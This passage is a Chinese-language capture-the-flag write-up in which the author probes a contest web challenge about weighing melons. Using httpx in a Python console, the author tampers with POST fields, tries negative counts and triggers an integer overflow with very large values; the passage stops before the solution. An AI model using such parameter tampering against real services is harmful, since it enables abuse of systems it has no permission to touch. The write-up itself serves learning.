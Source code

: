 这一题我第一天没做出来。在前端没发现什么特别之处后，先开浏览器开发者工具，拿到向服务器请求时使用的 api，便于下一步测试。

发现这是一个 post 请求，请求体中包含 3 个字段，分别是 `b6`, `b9` 表示 6 斤和 9 斤的瓜的个数，还有一个 `submit` 字段，值总是 `操作！`。

于是很自然地想到，我试试 `b2` 字段能不能行。当然，首先需要登录拿到 cookies。

```python
>>> import httpx
>>> client = httpx.AsyncClient()
>>> await client.get(f"http://202.38.93.111:15003/?token={token}")
<Response [200 OK]>
```

接着就发一个请求试试 `b2` 行不行：

```python
>>> await client.post("http://202.38.93.111:15003/", data={"b2": 1, "b9": 0, "submit": "操作！"})
<Response [200 OK]>
>>> _.text  # 在 python 交互式解释器中，下划线这个变量名引用的是
            # 上一条命令返回的对象。下面省略了不重要的输出信息
'... <p>电子秤上已有 0/20 斤的瓜。</p>\n ...'
```

看上去并没有成功。随后又试了几个，同样不行。那么再试试负数？

```python
>>> await client.post("http://202.38.93.111:15003/", data={"b6": -1, "b9": 0, "submit": "操作！"})
<Response [200 OK]>
>>> _.text
'操作无效：不能放负数个瓜。点击<a href="/">这里</a>回到主页。'
```

看来并不行。

经过一番折腾后，感觉在 api 上应该是没空子可钻了，于是打算试试溢出。此前，先定义一个函数免得需要光标在行中间跳来跳去：

```python
>>> async def melon(b6: int = 0, b9: int = 0):
...     return await client.post(
...         "http://202.38.93.111:15003/",
...         data={"b6": b6, "b9": b9, "submit": "操作！"},
...     )
...
```

```python
>>> await melon(2**63//6)
<Response [302 Found]>
>>> _.text
'... <p>电子秤上已有 9223372036854775806/20 斤的瓜。</p>\n ...'
```

很好，加上去了。再来一次：

```python
>>> await melon(2**63//6)
<Response [302 Found]>
>>> _.text
'... <p>电子秤上已有 1.844674407371E+19/20 斤的瓜。</p>\n ...'
```
